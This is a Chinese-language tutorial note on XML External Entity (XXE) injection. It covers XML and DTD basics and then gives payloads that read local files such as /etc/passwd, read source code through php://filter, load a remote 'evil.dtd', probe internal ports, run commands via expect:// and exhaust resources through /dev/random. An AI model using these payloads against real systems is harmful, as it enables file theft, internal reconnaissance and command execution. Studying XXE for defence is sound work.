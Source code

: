 # XXE漏洞

XML External Entity Injection

XML 外部实体注入



## XML基础知识

eXtensible Markup Language

可拓展标记语言



配置文件

交换数据



```xml
<?xml version="1.0" encoding="UTF-8"?> 
<TranInfo>
	<CdtrInf>
    	<Id>34123412344</Id>
    </CdtrInf>
    <Nm>zhangsan</Nm>
    <DbtrInf>
    	<Id>23542353</Id>
        <Nm>lisi</Nm>
    </DbtrInf>
    <Amt>1000</Amt>
</TranInfo>
```

XML必须有根元素，必须关闭标签，大小写敏感，正式嵌套，属性必须加引号



DTD Document Type Definition

文档类型定义 ELEMENT元素



```dtd
<!DOCTYPE TranInfo[
    <!ELEMENT TranInfo(CdtrInf,DbtrInf,Amt)>
    <!ELEMENT CdtrInf(Id,Nm)>
    <!ELEMENT DbtrInf(Id,Nm)>   
    ]>
```



内部ENTITY实体

```dtd
<?xml version="1.0" encoding="UTF-8"?>
<?DOCTYPE name[
<!ELEMENT name ANY>
<!ENTITY cs "changsha">]>

<people>
<name>wuya</name>
<area>&cs;</area>
</people>
```

使用&进行变量使用



外部实体,目前大多数浏览器都已经ban了这种引用方式了

```xml
<?xml version="1.0" encoding="UTF-8"?>
<?DOCTYPE name[
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "file:///D:/test/test.dtd">]>

<people>
<name>wuya</name>
<area>&xxe;</area>
</people>
```



外部实体引用协议

Libxml2支持的引用协议

| 协议 | 使用方式                                                   |
| ---- | ---------------------------------------------------------- |
| file | file:///etc/passwd                                         |
| php  | php://filter/read=convert.base64-encode/resource=index.php |
| http | http//:wuya.com/evil.dtd                                   |







## XXE

XML External Entity Injection

XML 外部实体注入



直接输入框里面直接输入

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE note[<!ENTITY xxe  "nibeiruqinle">]>
<name>&xxe;</name>
```



```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "file:///E://in.txt">]>
<login>&xxe;</login>
```



```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "http://127.0.0.1:3306">]>
<login>&xxe;</login>
```



需要服务器安装expect插件才可以运行：

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE xxe[
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "expect://ipconfig">]>
<root>
<name>&xxe;</name>
</root>
```



XXE炸弹，请求随机文件

```xml
<!ENTITY bomb "file:///dev/random">]> <msg>&bomb;</msg>
```

